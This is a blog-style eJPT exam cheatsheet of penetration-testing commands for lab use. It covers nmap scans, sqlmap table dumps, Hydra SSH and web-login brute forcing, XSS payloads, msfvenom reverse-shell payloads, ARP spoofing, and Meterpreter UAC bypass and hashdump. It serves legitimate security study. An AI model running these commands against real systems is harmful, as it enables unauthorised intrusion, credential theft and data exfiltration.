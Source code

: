 ```yaml
---
layout: post
title:  "eJPT - Cheatsheet"
date:   2021-01-24 10:12:30 +0530
categories: ExamBlog
---
```


### **This is a Cheatsheet for eJPT exam + course.**

## Nmap
```shell
nmap -sn 10.10.10.0/24
nmap -sV -p- -iL targets -oN nmap.initial -v
nmap -A -p- -iL targets -oN nmap.aggressive -v
nmap -p<port> --script=vuln -v <target-IP>
```

## fPing
```shell
fping -a -g 10.10.10.0/24 2>/dev/null > targets
```

## IP Route
```shell
# ip route add <Network-range> via <router-IP> dev <interface>
# eg.
ip route add 10.10.10.0/24 via 10.10.11.1 dev tap0
```

## John
```shell
john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5
unshadow passwd shadow > unshadowed.txt
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```

## dirb
```shell
dirb http://10.10.10.10/ 
dirb http://10.10.10.10/dir -u admin:admin
```

*I suggest you to use dirbuster for better speed. Keep the threads at 20. Use /usr/share/wordlists/dirb/common.txt wordlist.*

## Netcat
**Listening for reverse shell**
```shell
nc -nvlp 1234
```

**Banner Grabbing**
```shell
nc -nv 10.10.10.10 <port>
```

## SQLMap
#### Check if injection exists
```shell
sqlmap -r Post.req
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin"
```

#### Get database if injection Exists
```shell
sqlmap -r login.req --dbs
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id --dbs
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" --dbs
```

#### Get Tables in a Database
```shell
sqlmap -r login.req -D dbname --tables
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname --tables
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname --tables
```

#### Get data in a Database tables
```shell
sqlmap -r login.req -D dbname -T table_name --dump
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname -T table_name --dump
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname -T table_name --dump
```

## Hydra
**SSH Login Bruteforcing**
```shell
hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u 10.10.10.10 ssh
hydra -v -V -u -l root -P passwords.txt -t 1 -u 10.10.10.10 ssh
```
*You can use same for FTP, just replace ssh with ftp*

**HTTP POST Form**
```shell
hydra http://10.10.10.10/ http-post-form "/login.php:user=^USER^&password=^PASS^:Incorrect credentials" -L usernames.txt -P passwords.txt -f -V
```

*You will know which wordlists to use when the time comes*


## XSS
```javascript
<script>alert(1)</script>
<ScRiPt>alert(1)</ScRiPt>
```

*This is a great filter bypass cheatsheet*\
https://owasp.org/www-community/xss-filter-evasion-cheatsheet

## msfvenom shells
**JSP Java Meterpreter Reverse TCP**
```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp
```

**WAR**
```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war
```

**PHP**
```shell
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

## Metasploit Meterpreter autoroute
```shell
run autoroute -s 10.10.10.0/24
```

## ARPSpoof
```shell
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i <interface> -t <target> -r <host>
arpspoof -i tap0 -t 10.100.13.37 -r 10.100.13.36
```

## SMB Enumeration
**Get shares, users, groups, password policy**
```shell
smbclient -L //10.10.10.10/
enum4linux -U -M -S -P -G 10.10.10.10
nmap --script=smb-enum-users,smb-os-discovery,smb-enum-shares,smb-enum-groups,smb-enum-domains 10.10.10.10 -p 135,139,445 -v
nmap -p445 --script=smb-vuln-* 10.10.10.10 -v

# Access Share\
smbclient //10.10.10.10/share_name
```

## FTP Enumeration
```shell
nmap --script=ftp-anon 10.10.10.10 -p21 -v
nmap -A -p21 10.10.10.10 -v

# Login to FTP server
ftp 10.10.10.10
```

## Meterpreter
```shell
ps
getuid
getpid
getsystem
ps -U SYSTEM

# CHECK UAC/Privileges
run post/windows/gather/win_privs

# BYPASS UAC
# Background the session first
exploit/windows/local/bypassuac
set session

# After PrivEsc**
migrate <pid>
hashdump
```
  
## Windows Command Line
**To search for a file starting from current directory**
```powershell
dir /b/s "*.conf*"
dir /b/s "*.txt*"
dir /b/s "*filename*"

# Check routing table
route print
netstat -r

# Check Users
net users

# List drives on the machine
wmic logicaldisk get Caption,Description,providername
```
